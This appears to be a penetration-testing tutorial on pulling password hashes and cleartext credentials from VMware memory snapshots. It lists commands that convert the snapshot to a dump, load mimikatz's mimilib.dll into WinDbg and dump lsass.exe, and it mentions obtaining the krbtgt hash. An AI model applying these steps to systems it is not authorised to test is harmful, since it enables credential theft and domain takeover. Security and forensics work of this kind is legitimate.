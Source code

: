 # Extracting Hashes and Passwords from VMWare Memory Snapshots

# Requirements

- Mimikatz
- VM
- bin2dmp.exe / vmss2core [https://flings.vmware.com/vmss2core](https://flings.vmware.com/vmss2core)  / [https://github.com/arizvisa/windows-binary-tools/blob/master/bin2dmp.exe](https://github.com/arizvisa/windows-binary-tools/blob/master/bin2dmp.exe)
- WinDbgx64 [https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk](https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk)

# Getting a .vmem file

Go to your vm in vmware workstation and take a snapshot of it 

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled.png)

This will generate few files in your vm folder

- client1-Snapshot3.vmem
- client1-Snapshot3.vmsn

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%201.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%201.png)

# Getting a .dmp file

## Using bin2dmp.exe

bin2dmp.exe client1-Snapshot3.vmem memory.dmp

## Using vmss2core (recommended)

vmss2core-sb-8456865.exe -W8 client1-Snapshot3.vmsn client1-Snapshot3.vmem

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%202.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%202.png)

You will get a a memory.dmp file

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%203.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%203.png)

# Opening the memory.dmp file in WinDbgx64

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%204.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%204.png)

## Importing mimilib.dll into WinDbgx64

Run .load c:\path\to\mimilib.dll

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%205.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%205.png)

## Searching for lsass.exe process in memory

Type `!process 0 0 lsass.exe` this will search for the process and return its address

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%206.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%206.png)

## Dumping passwords

Let's switch to lsass.exe process context using `.process /r /p <EPROCESS address>` 

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%207.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%207.png)

And now run `!mimikatz` !

# Profit

You will also get krbtgt hash sometimes.

![Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%208.png](Extracting%20Hashes%20and%20Passwords%20from%20VMWare%20Memory/Untitled%208.png)

# Other tricks:

- `!envvar COMPUTERNAME` get computer name
- `!process 0 0x31 wininit.exe` dump winit.exe
- `!vm` get a list of processes and their usage
- `!process 0 0` list processes and their address
- `!peb`